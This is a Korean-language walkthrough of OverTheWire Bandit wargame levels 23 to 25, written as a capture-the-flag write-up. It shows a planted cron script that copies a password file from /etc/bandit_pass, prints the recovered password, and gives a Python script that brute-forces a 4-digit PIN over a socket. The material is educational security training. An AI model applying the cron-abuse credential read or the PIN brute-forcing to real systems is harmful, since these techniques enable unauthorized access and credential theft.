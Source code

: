 ```bash
myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

```
* cron executes every 1minute
```bash
bandit23@bandit:/var/spool/bandit24$ cat lol.sh
#!/bin/sh

cat /etc/bandit_pass/bandit24 > ./pass
bandit23@bandit:/var/spool/bandit24$ cat ./pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

### pw
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

## 24~25
### 문제상황
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
### 풀이
```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```
```python
import socket
import sys

password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server_address = ('127.0.0.1', 30002)
    sock.connect(server_address)
    msg = sock.recv(2048)
    print(msg)
    for i in range(10000):
        pin = str(i).zfill(4)
        message = password + " " + pin + "\n"
        sock.sendall(message.encode())
        msg = sock.recv(1024)
        if "Wrong" in msg:
            print("wrong", pin)
        else:
            print(pin, msg)
```